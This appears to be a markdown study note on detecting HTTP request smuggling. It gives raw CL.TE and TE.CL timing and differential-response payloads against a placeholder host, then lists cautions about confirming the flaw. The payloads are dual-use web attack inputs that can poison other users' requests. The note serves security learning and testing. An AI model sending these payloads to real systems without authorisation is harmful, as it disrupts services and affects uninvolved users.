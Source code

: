 ## Timing Techniques

The most generally effective way to detect HTTP request smuggling vulnerabilities is to send requests that will cause a time delay in the application's responses if a vulnerability is present. This technique is used by Burp Scanner to automate the detection of request smuggling vulnerabilities.

### CL. TE using timing techniques

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

### TE. CL using timing techniques

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

## Differential Techiniques

This involves sending two requests to the application in quick succession:

-   An "attack" request that is designed to interfere with the processing of the next request.
-   A "normal" request.

e.g. attack request:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

e.g. normal request:

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

The response of the normal request would then **NOT** be 200 as it is tainted with the previous attack request.

### CL. TE using differential responses

e.g. request

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

e.g. how the back-end would treat a normal `POST` request to `/search`

```http
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

### TE. CL using differential responses

e.g. request

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```

e.g. how the back-end would treat a normal `POST` request to `/search`

```http
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

#### Note

Some important considerations should be kept in mind when attempting to confirm request smuggling vulnerabilities via interference with other requests:

-   The "attack" request and the "normal" request should be sent to the server using different network connections. Sending both requests through the same connection won't prove that the vulnerability exists.
-   The "attack" request and the "normal" request should use the same URL and parameter names, as far as possible. This is because many modern applications route front-end requests to different back-end servers based on the URL and parameters. Using the same URL and parameters increases the chance that the requests will be processed by the same back-end server, which is essential for the attack to work.
-   When testing the "normal" request to detect any interference from the "attack" request, you are in a race with any other requests that the application is receiving at the same time, including those from other users. You should send the "normal" request immediately after the "attack" request. If the application is busy, you might need to perform multiple attempts to confirm the vulnerability.
-   In some applications, the front-end server functions as a load balancer, and forwards requests to different back-end systems according to some load balancing algorithm. If your "attack" and "normal" requests are forwarded to different back-end systems, then the attack will fail. This is an additional reason why you might need to try several times before a vulnerability can be confirmed.
-   If your attack succeeds in interfering with a subsequent request, but this wasn't the "normal" request that you sent to detect the interference, then this means that another application user was affected by your attack. If you continue performing the test, this could have a disruptive effect on other users, and you should exercise caution.